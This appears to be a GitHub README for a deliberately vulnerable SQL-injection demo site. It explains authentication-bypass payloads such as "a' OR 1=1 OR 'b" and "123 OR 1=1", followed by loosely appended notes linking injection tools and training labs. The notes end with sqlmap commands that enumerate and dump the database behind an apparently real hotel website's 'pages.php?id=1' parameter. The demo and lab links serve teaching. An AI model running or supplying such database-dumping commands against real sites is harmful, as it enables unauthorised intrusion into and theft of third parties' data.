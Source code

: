# SQL-Injection Demo
`index.html` contains a website that's prone to SQL Injection. 
SQL Injection is a code injection technique that can be used to access databases without authorization.

## Trying it for yourself
Install the dependencies with
```bash
pip install -r requirements.txt
```
Run `api.py` and open `index.html` in a browser.

## How a SQL Query could look like
Let's say the website is dealing with a database with table `data` that stores in a field `data`. An example of checking
if the code `1X4Z25` is valid could look like this
```sql
select * from data where data='1X4Z25'
```
This sort of statement is extremely vulnerable.
## SQL Injection
The way we can test if a website is by using the escape character `'`. This sort of statement
could look like this: 
```sql
select * from data where data='''
```
which would throw the error `unrecognized token: "'''"`.
On a real website, this could throw something like `an unexpected error`.<br>
We can use SQL statements to complete the statement to always return something.<br>
By using a statement like `1=1` we can return everything in the database.
Such a statement could look like this.
```sql
select * from data where data='a' OR 1=1 OR 'b'
```
This would always validate us. By inserting `a' OR 1=1 OR 'b` in the text field this completes
the statement and returns a valid code.
The server can proceed to do other things with this code, even if you don't know what code you are using.<br>
<br>
SQL Injection also works if the data is numbers. For example, a sql statement accepting only numbers
could look like this.

```sql
select * from data where data=123456
```

Here, SQL Injection is a little bit more simple. We can test by using the escape character `'`,
and an example SQL Injection could look like this:
```sql
select * from data where data=123 OR 1=1
```
Here, by entering `123 OR 1=1`, we accomplish the same thing as last time.


SQL injections tools https://www.hacksplaining.com/lessons/sql-injection/hack-complete https://github.com/vivek3141/sql-injection-demo

No sql injection tools https://github.com/codingo/NoSQLMap Easy : https://github.com/FrostyLabs/NoSQL-Injection Demo : https://learn.snyk.io/lesson/nosql-injection-attack/ https://book.hacktricks.xyz/pentesting-web/nosql-injection

Xpath Injection https://github.com/r0oth3x49/Xpath https://learn.snyk.io/lesson/xpath-injection/ https://book.hacktricks.xyz/pentesting-web/xpath-injection

LDAP Injection https://github.com/Atsika/lbi https://github.com/EmreOvunc/eLdap-Ldap-Search-and-Filter https://learn.snyk.io/lesson/ldap-injection/ https://learn.snyk.io/lesson/malicious-code-injection/

XML Injection https://github.com/luisfontes19/xxexploiter https://www.hacksplaining.com/lessons https://www.akto.io/blog/xml-injection-vulnerability-examples-cheatsheet-and-prevention https://www.hacksplaining.com/lessons/xml-bombs/start https://www.hacksplaining.com/lessons/xml-external-entities/start

Sql injection using tool Tool : https://sqlmap.org/ winodws cmd command >>> python sqlmap.py -u "website" --dbs python sqlmap.py "website" --dump "hote_citadel" https://www.hotelcitadelsurat.com/pages.php?id=1

Mail service Injection https://github.com/Email-Analysis-Toolkit/command-injection-tester
